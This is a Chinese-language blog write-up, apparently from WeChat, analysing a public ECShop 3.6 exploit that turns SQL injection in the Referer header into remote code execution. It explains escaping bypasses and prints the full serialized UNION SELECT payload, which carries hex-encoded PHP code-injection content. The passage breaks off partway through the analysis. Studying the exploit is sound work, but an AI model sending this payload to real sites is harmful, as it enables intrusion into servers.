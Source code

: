 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s?\_\_biz=MzIzMTQ4NzE2Ng==&mid=2247484556&idx=1&sn=d2d0ece33c7d22fce6f3d37fda214425&chksm=e8a2275ddfd5ae4b8da6c751b6f16a218fbbb13385d7d6be955797b7f772b694033f4231a276&xtrack=1&scene=90&subscene=93&sessionid=1599646882&clicktime=1599646966&enterid=1599646966&ascene=56&devicetype=android-28&version=27001238&nettype=cmnet&abtest\_cookie=AAACAA%3D%3D&lang=zh\_CN&exportkey=ASOf2n1bjee%2BYWPvi%2BQ9yI0%3D&pass\_ticket=LwARNd4f0cVjdS8nGO%2BEr6Z5aGMyo9HpkBGCHzBZaCGneobYcuSBJCyJlht406G6&wx\_header=1)

  

  

  

**点击蓝字 ·  关注我们**

  

**01**

  

背景

  

payload Referer 处 SQL 注入导致 RCE(先对公开的进行分析学习)

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgenxJSgtribic1DY09KnNwicefQKwpeFGuC4iaTF5QYgnibwzZREUsRCp744bic7BVozR7495hxhNiaMUqgog/640?wx_fmt=png)

**02**

  

为什么要在 HTTP 头 SQL 注入

  

require(dirname(\_\_FILE\_\_).'/includes/init.php'); // 核心文件

跟一下 addslashes\_deep 做了什么

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgenxJSgtribic1DY09KnNwicefQreujBXWhMib6fiaSADnprwXoZUSSLicmIibSyH1cicpacjBznu6sWVnSrsg/640?wx_fmt=png)

用户传参被转义，gbk 的话可以宽字节绕过，或者考虑二次注入，或者找数字型注入，无需闭合。

在 HTTP 头内的参数不会被转义。(优先考虑)

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgenxJSgtribic1DY09KnNwicefQ8JmG7WDia31qkCRvo8WCE9ZickrlUibgPfXGbOB3IvhUqpCUWl3icgRVKQ/640?wx_fmt=png)

**03**

  

ecshop3.6 payload 分析

  

user.php?act=login   Referer 为入口处。

**0x01**

*   45ea207d7a2b68c49582d2d22adf953aads 是什么?
    
*   a:2:{s:3:“num”;s:107:“\*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -”;s:2:“id”;s:11:“-1‘ UNION/\*”;} // 为什么要序列化?
    